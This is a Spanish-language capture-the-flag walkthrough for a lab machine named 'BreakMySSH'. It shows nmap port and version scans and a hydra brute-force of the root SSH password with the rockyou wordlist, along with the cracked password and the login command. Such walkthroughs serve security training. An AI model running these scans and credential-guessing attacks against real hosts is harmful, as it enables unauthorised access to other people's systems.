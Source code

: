 # BreakMySSH

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 22, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22`: Escaneo de los puertos 22 (SSH).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfOr49bj2kh3ab2WutTu6Jx7NA7OKSxzp42bJU4nqtQlICZbjiBXhOa1ZKOfUfNvXOGEThiSrTNbf1nRGzXtACiZQp+RwQr5ZEYPAOyasC7C29FaIZVURR7FuFea+tfWZjbzDaP8WnA/U3TQHwtUBsNSR3qFscgJQ1niCyrfH/4rbUk5jiLYN6y8NjctGvsvwPE+cCiFVge76qyfzmZdaf5gJT9DKDt47iBkrngCODYrqqt+Bbl9ZEGh5SUfDqYfsFMIvlsSjmbx0HtMc2NhTW7jLtyV3Xm6ynFUZmQRPRqXdzuN5TIhYzaQD8ogC1Hk9sYJJNUMMF+lGVf15iouMn
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ77V//dhC1BX2KXpMNurk9hJPA3aukuoMLPajtYfaewmlwrsK5Rdss/I/iQ23YrziNvWb3VMJk511YbvvreZo=
|   256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICFLUqv+frul58FgQLXP91bNrTRC9d1X545DZJ0wsw6z
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Al tener una versión de ssh que no permite la enumeración de usuarios y únicamente tenemos el puerto 22 abierto, vamos a probar con hydra y fuerza bruta si podemos obtener el password de root.

## Explotación.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
- `-l root`: Especifica el nombre de usuario "root" para el intento de inicio de sesión.
- `-P /usr/share/wordlists/rockyou.txt`: Especifica la ubicación del archivo de contraseñas a utilizar. En este caso, se utiliza el archivo "rockyou.txt" como lista de contraseñas.
- `ssh://172.17.0.2`: Indica el protocolo a utilizar (`ssh`) y la dirección IP del host objetivo (`172.17.0.2`). Esto establece el destino del intento de inicio de sesión mediante SSH.

```bash
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-16 15:29:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-16 15:29:49
```
Con hydra encontramos el password para el usuario root y nos conectamos por ssh a la máquina.

```bash
ssh root@172.17.0.2
```
